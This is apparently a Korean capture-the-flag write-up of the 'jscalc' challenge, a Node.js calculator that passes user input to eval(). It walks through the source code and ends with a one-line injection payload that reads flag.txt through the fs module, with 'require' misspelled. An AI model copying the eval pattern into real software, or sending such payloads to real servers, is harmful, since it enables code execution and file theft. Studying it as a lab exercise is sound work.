 # jscalc
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)

![image](https://github.com/user-attachments/assets/ef9e4118-eed8-4707-bbdb-f87dac2556fd)
- 입력한 값을 ```eval()``` 로 계산해주는 사이트

## Tree
```
 > tree /F
 Folder PATH listing for volume system
 Volume serial number is F2DB-00D8
 C:.
 │   build-docker.sh
 │   Dockerfile
 │   flag.txt
 │   supervisord.conf
 │   
├───challenge
 │   │   index.js
 │   │   package-lock.json
 │   │   package.json
 │   │   yarn.lock
 │   │
 │   ├───helpers
 │   │       calculatorHelper.js
 │   │
 │   ├───routes
 │   │       index.js
 │   │
 │   ├───static
 │   │   │   favicon.png
 │   │   │
 │   │   ├───css
 │   │   │       main.css
 │   │   │
 │   │   └───js
 │   │           main.js
 │   │
 │   └───views
 │           index.html
 │
 └───config
 supervisord.conf
```
- 디렉토리 구조는 위와 같다.

## 정적 분석
```
 {
   "name": "jscalc",
   "version": "1.0.0",
   "description": "",
   "main": "index.js",
   "nodeVersion": "v8.12.0",
   "scripts": {
   "start": "node index.js"
   },
   "keywords": [],
   "authors": [
   "makelaris",
   "makelarisjr"
   ],
  "dependencies": {
   "body-parser": "^1.19.0",
   "express": "^4.17.1"
   }
 }
```
- 애플리케이션을 시작하는 데 사용되는 스크립트인 "start"가 ```index.js```를 실행하는 것을 확인

```
const express  = require('express'); 
const app  = express();
const bodyParser  = require('body-parser');
const routes  = require('./routes');
const path  = require('path');

 app.use(bodyParser.json());

 app.set('views', './views');
 app.use('/static', express.static(path.resolve('static')));

 app.use(routes);

 app.all('*', (req, res) => {
 return res.status(404).send({
 message: '404 page not found'
	});
 });

 app.listen(1337, () => console.log('Listening on port 1337'));
```
- ```app.use(routes);```로 라우팅 미들웨어를 등록하여 현재 디렉토리의 'routes; 모듈에서 정의한 라우팅 로직을 사용하는 것을 확인

```
const path = require('path');
const express  = require('express');
const router = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

 router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
 });

 router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}
 return res.send(response('Missing parameters'));
 })
 module.exports = router;
```
- ```./routes/index.js```의 내용이다. ```/api/calculate```로 POST 요청이 들어오면 인자를 ```Calculator.calculate();```에 넣고 반환값을 클라이언트에게 전송한다.

```
module.exports = {
 calculate(formula) {
   try {
     return eval(`(function() { return ${ formula } ;}())`);
   } catch (e) {
       if (e instanceof SyntaxError) {
         return 'Something went wrong!';
       }
     }
   }
 }
```
- ```../helpers/calculatorHelper```의 내용이다. 함수 calculate가 받은 인자를 eval()에 넣어서 실행하고, 반환한다.
- calculatorHelper기준 상위 디렉토리에 있는 flag.txt를 읽는 것이 목표이므로, fs 모듈의 ```readFileSync()```를 사용하여 파일을 읽도록 시도한다.

## PoC
```requier('fs').readFileSync('../flag.txt', 'utf8')```

![image](https://github.com/user-attachments/assets/5409cb6c-caea-4872-ba82-7c92c6b9fcd7)



